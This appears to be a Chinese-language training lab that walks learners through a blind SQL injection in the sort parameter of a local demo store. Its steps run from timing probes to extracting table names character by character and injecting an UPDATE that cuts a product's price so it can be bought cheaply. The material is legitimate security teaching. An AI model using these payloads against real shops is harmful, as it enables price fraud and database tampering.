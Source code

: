 # 透過漏洞修改商品價格，低價購入

## 目標

>本章練習從修改 URL 來發現是否有 SQL Injection 的漏洞，並利用該漏洞來修改商品價格，讓 小R 低價購入商品

## 練習步驟

### 1.找出疑似 SQL Injection 功能

1. 開啟 Chrome 在 Url 中輸入 **<http://localhost:44375/>**

2. 在 Search Box 中輸入 mac ，查看 MacBook Pro 價格，需要 53,900 元

    ![Search Mac](images/s1-01.png)

3. 按下「**Detail**」 Button，查看其他人的評價

4. 評論蠻多的，可透過 UserID or Comments 來排序，按下 UserId or Comments 來查看大家的評論

5. 大家的評論還 OK，但價格蠻高的，是否有什麼漏洞可以改它的價格，讓我可以低價購買呢?

6. 按下 UserID or Comments 來排序時，URL 上同時會有 UserID or Comments ，很有可能會有 SQL Injection 的問題

    ![Order By UserID](images/s1-02.png)

7. 所以將 URL 上面的 **UserId** 改成 **UserIa** ，會發現導到了錯誤畫面。

    ![Order By UserIa](images/s1-03.png)

8. 一般的 SQL ， Order By 可以使用多個欄位，所以可以把 **UserId** 改成 **UserId,1** ，畫面又可以正常顯示

    ![Order By UserId,1](images/s1-04.png)

9. 再將 **UserId** 改成 **UserId, a** ，畫面又導到了錯誤畫面。

    ![Order By UserId,a](images/s1-05.png)

10. 這支功能似乎有 Blind SQL Injection 的問題

### 2.SQL Injection 常用手法介紹

1. 開啟 Visual Studio 「**SQL Server 物件總管**」視窗，點開 **(localdb)\MSSQLLocalDB (SQL Server ....)** => **資料庫** => **範例路徑\Store.MDF**

    > 也可以使用 SSMS 連接 (localdb)\MSSQLLocalDB

2. 在 **範例路徑\Store.MDF** 上按右鍵，選擇「**新增查詢**」

    ![新增查詢](images/s1-06.png)

3. WaitFor Delay

    ```sql
    Select GetDate() as BeforeDate;
    WaitFor Delay '00:00:05'; -- 等 5秒
    Select GetDate() as AfterDate;
    ```

4. 取得前幾筆資料 Top N

    ```sql
    --取得前幾筆資料
    SELECT Top 2 *
    FROM Users A1
    Order By A1.Email
    ```

5. 取得**第N筆資料**
    因為要取出一筆資料，所以使用 Top 1，但因為要取**第N筆資料**，所以先取出前幾筆 (Top N) 後，再反過來排序取 Top 1

    ```sql
    SELECT Top 1 *
    -- cindy
    From (
    SELECT Top 2 *
    -- admin
    -- cindy
    FROM Users A1
    Order By A1.Email 
    ) B
    Order By B.Email Desc
    ```

    ![第N筆資料](images/s1-07.png)

6. 讓 SQL 發生錯誤

    ```sql
    Select Convert(int, 'a');
    ```

### 3.驗證是否有 SQL Injection

1. 開啟 Chrome 在 Url 中輸入 **<http://localhost:44375/Product/Detail?ProductID=13&orderBy=UserID>**，按下 Enter ，可以發現畫面很快就呈現出來。

2. 在 Url 後面多加入 「**;WaitFor Delay '00:00:05';--**」，Url 為 **<http://localhost:44375/Product/Detail?ProductID=13&orderBy=UserID;WaitFor%20Delay%20%2700:00:05%27;-->**，按下 Enter ，可以感覺得到畫面要等5秒後才會呈現。

3. 再調整 WaitFor Delay 的時間，就會回依時間回應。所以確認這功能有 SQL Injection 的問題。

### 4.修改商品價格

1. 確認商品詳細功能有 SQL Injection 的問題，它可以被注入 SQL ，但卻不知它商品的資料表及欄位

2. MSSQL 資料表的相關資料為 **sys.tables** 及 **INFORMATION_SCHEMA.COLUMNS**

    ```sql
    SELECT name FROM sys.tables; 
    Select TABLE_NAME, COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS;
    ```

3. 如果想要知道**商品**資料表及欄位，就需要用猜的方式，如果猜對，SQL 就回傳 1。猜錯就讓 SQL 發生錯誤。

    ```sql
    --原本的SQL
    SELECT * FROM Votes 
    Where ProductID = 13
    Order By UserID;

    --Order By UserID, 1
    SELECT * FROM Votes 
    Where ProductID = 13
    Order By UserID, 1;

    --Order By UserID, Convert(int, 'a')
    SELECT * FROM Votes 
    Where ProductID = 13
    Order By UserID, Convert(int, 'a');
    ```

    ```sql
    --Product
    --P
    SELECT Top 1 substring(A2.name, 1, 1) 
    From (SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 
    Order By A2.name Desc;
    --r
    SELECT Top 1 substring(A2.name, 2, 1) 
    From (SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 
    Order By A2.name Desc;
    --o
    SELECT Top 1 substring(A2.name, 3, 1) 
    From (SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 
    Order By A2.name Desc;
    -- ...
    ```

    ```sql
    --第一個單字為 P，不是 a ，所以這個SQL會發生錯誤
    SELECT * FROM Votes 
    WHERE ProductID = 13
    Order By UserID
    ,Case When (SELECT Top 1 substring(A2.name, 1, 1) 
    From ( SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 Order By A2.name Desc) = 'a' 
    Then 1
    Else convert(int, 'x') End;

    --第一個單字為 P，所以這個SQL沒問題
    SELECT * FROM Votes 
    WHERE ProductID = 13
    Order By UserID
    ,Case When (SELECT Top 1 substring(A2.name, 1, 1) 
    From ( SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 Order By A2.name Desc) = 'p' 
    Then 1
    Else convert(int, 'x') End;
    ```

4. 在 URL <http://localhost:44375/Product/Detail?ProductID=13&orderBy=UserID> 後面輸入 **,case when (SELECT Top 1 substring(A2.name, 1, 1) From ( SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 Order By A2.name Desc) = 'a' then 1  else convert(int, 'x') end**，則會切到錯誤畫面，因為第一個資料表名稱的第一個字不為 a 。

5. 在 URL <http://localhost:44375/Product/Detail?ProductID=13&orderBy=UserID> 後面輸入 **,case when (SELECT Top 1 substring(A2.name, 1, 1) From ( SELECT Top 1 A1.name FROM sys.tables A1 Order By A1.name ) A2 Order By A2.name Desc) = 'p' then 1  else convert(int, 'x') end**，畫面會正常顯示，沒有錯誤，表示猜到了第一個資料表名稱的第一個字。

6. 因為看不到結果，只能用 true or false 猜的方式，所以這種也叫 Blind SQL Injection。

7. 接下來請猜一猜 **第二個資料表名稱的第一個字**，在 URL <http://localhost:44375/Product/Detail?ProductID=13&orderBy=UserID> 後面輸入

    ```sql
    ,case when (SELECT Top 1 substring(A2.name, 1, 1) From ( SELECT Top 2 A1.name FROM sys.tables A1 Order By A1.name ) A2 Order By A2.name Desc) = 'u' then 1  else convert(int, 'x') end
    ```

8. 因為有固定的模式可以使用，所以可以透程式來幫我們猜出來。所以開啟 Guessing\bin\Debug\Guessing.exe，按下「**猜 TableName**」可以猜出 **PRODUCT**。按下「**猜 Columns**」可猜出商品的所有欄位。

    ![猜 TableName & Columns](images/s1-08.png)

9. 找出商品資料表及欄位，就可以執行更新商品價格的 SQL，將價格改成 **5.39**元。所以在 URL <http://localhost:44375/Product/Detail?ProductID=13&orderBy=UserID> 後面輸入 **;Update PRODUCTS Set PRICE = 5.39 Where PRODUCTID = 13;--**

    ![改完商品價格](images/s1-09.png)

10. 當 Macbook Pro 價格變成了 5.39 元，請登入進行購買 ^_^。

>SQL Injection 的修正請參考 todo: Session-3-2. Blind SQL Injection Fix
>
>除了猜 TableName 外，您可以試著猜 DatabaseName 然後進行跨 Db 存取

[Back](./../../readme.md)
